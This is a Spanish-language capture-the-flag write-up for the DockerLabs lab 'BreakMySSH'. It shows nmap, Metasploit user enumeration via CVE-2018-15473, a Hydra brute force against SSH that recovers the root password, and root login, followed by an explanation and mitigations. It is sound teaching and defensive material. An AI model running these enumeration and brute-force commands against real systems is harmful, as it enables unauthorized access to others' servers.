

<h1 align="center">🔓 BreakMySSH — Writeup</h1>

<p align="center">
  
</p>

<p align="center">
  
  
  
</p>

<p align="center">
  <b>Nmap</b> ➡️ <b>Enumeración de usuarios (CVE-2018-15473)</b> ➡️ <b>Fuerza bruta SSH (Hydra)</b> ➡️ <b>Root</b>
</p>

---

## 📑 Índice
1. [Información de la máquina](#1-información-de-la-máquina)
2. [Reconocimiento](#2-reconocimiento)
3. [Identificación de la vulnerabilidad](#3-identificación-de-la-vulnerabilidad)
4. [Enumeración de usuarios](#4-enumeración-de-usuarios)
5. [Explotación — Fuerza bruta SSH](#5-explotación--fuerza-bruta-ssh)
6. [Acceso](#6-acceso)
7. [¿Por qué funciona?](#7-por-qué-funciona)
8. [Mitigaciones](#8-mitigaciones)
9. [Herramientas utilizadas](#9-herramientas-utilizadas)

---

## 1. Información de la máquina

| Campo            | Valor                                   |
|------------------|-----------------------------------------|
| Nombre           | BreakMySSH                              |
| Plataforma       | DockerLabs                              |
| IP objetivo      | `172.17.0.2`                            |
| Dificultad       | Fácil                                   |
| Vulnerabilidad   | Enumeración de usuarios en OpenSSH + credenciales débiles |
| CVE              | CVE-2018-15473                          |

> 📝 La IP varía según el despliegue del contenedor. Ajusta `172.17.0.2` a la que te asigne tu `auto_deploy.sh`.

---

## 2. Reconocimiento

Escaneo completo de puertos y servicios con Nmap:

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Resultado: **un único puerto abierto**.

| Puerto   | Servicio | Versión            |
|----------|----------|--------------------|
| 22/tcp   | ssh      | OpenSSH 7.7 (protocolo 2.0) |

> 💡 No hay servicio web ni ningún otro puerto: toda la superficie de ataque es el SSH. El dato clave es la **versión 7.7**, vulnerable a enumeración de usuarios.

---

## 3. Identificación de la vulnerabilidad

OpenSSH en versiones **anteriores y hasta la 7.7** es vulnerable a **CVE-2018-15473**: el servidor responde de forma distinta (en tiempo o ante un paquete malformado) según el usuario exista o no, lo que permite **enumerar usuarios válidos** sin autenticarse.

Buscamos el módulo en Metasploit:

```bash
msfconsole -q
msf > search ssh_enumusers
```

Módulo a utilizar:

```
auxiliary/scanner/ssh/ssh_enumusers
```

---

## 4. Enumeración de usuarios

Cargamos el módulo y revisamos las opciones obligatorias:

```bash
use auxiliary/scanner/ssh/ssh_enumusers
show options
```

Configuramos objetivo y diccionario de usuarios:

```bash
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/SecLists/Usernames/top-usernames-shortlist.txt
run
```

Salida:

```
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'root' found
[*] Scanned 1 of 1 hosts (100% complete)
```

> ✅ Usuario válido confirmado: **`root`**.

---

## 5. Explotación — Fuerza bruta SSH

Con el usuario ya identificado, lanzamos fuerza bruta dirigida con Hydra y el diccionario `rockyou`:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://172.17.0.2
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
```

> ⚠️ Hydra puede mostrar un `[ERROR] 1 target did not resolve or could not be connected` justo después de encontrar la contraseña. Es **cosmético**: ocurre porque mata los hilos restantes al encontrar la credencial. La línea válida es `login: root password: estrella`.

> 💡 En SSH conviene usar `-t 4` (o menos). Con los 16 hilos por defecto, OpenSSH limita conexiones y puedes tener falsos negativos.

Credenciales obtenidas:

```
root : estrella
```

---

## 6. Acceso

Nos conectamos por SSH con las credenciales:

```bash
ssh root@172.17.0.2
```

```
root@172.17.0.2's password:

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY...

root@0a5242daae53:~# whoami
root
```

> 🏆 **Máquina comprometida.** Acceso directo como `root`. El objetivo del laboratorio era precisamente romper el SSH y obtener el acceso, por lo que la máquina queda resuelta con este shell.

---

## 7. ¿Por qué funciona?

- **CVE-2018-15473:** `sshd` procesaba la autenticación de forma que revelaba, por comportamiento diferencial, si un nombre de usuario existía o no. Esto reduce drásticamente el espacio de ataque: en lugar de probar `usuario × contraseña`, el atacante confirma primero el usuario válido y solo ataca la contraseña.
- **Credenciales débiles:** la cuenta `root` usaba una contraseña (`estrella`) presente en diccionarios públicos como `rockyou`, lo que hace la fuerza bruta trivial y rápida.
- **Login de root por SSH habilitado:** permitir el acceso directo de `root` por SSH elimina cualquier capa intermedia y entrega el máximo privilegio en cuanto cae la contraseña.

---

## 8. Mitigaciones

1. **Actualizar OpenSSH** a una versión no afectada por CVE-2018-15473 (7.8 o superior).
2. **Deshabilitar el login de root por SSH**: `PermitRootLogin no` en `/etc/ssh/sshd_config`.
3. **Usar autenticación por clave pública** y deshabilitar la autenticación por contraseña (`PasswordAuthentication no`).
4. **Contraseñas robustas** y con políticas de complejidad; nunca credenciales presentes en diccionarios.
5. **Protección contra fuerza bruta**: `fail2ban`, límites de intentos y rate-limiting.
6. **Exponer el SSH solo donde haga falta** (VPN, listas de acceso, cambio de puerto como medida menor).

---

## 9. Herramientas utilizadas

- **Nmap** — escaneo de puertos y detección de servicios/versiones.
- **Metasploit Framework** (`auxiliary/scanner/ssh/ssh_enumusers`) — enumeración de usuarios vía CVE-2018-15473.
- **Hydra** — fuerza bruta de credenciales SSH.
- **SecLists / rockyou** — diccionarios de usuarios y contraseñas.
- **SSH** — conexión al objetivo.

---

<p align="center"><i>Writeup con fines educativos. Realizado en un entorno de laboratorio autorizado (DockerLabs).</i></p>
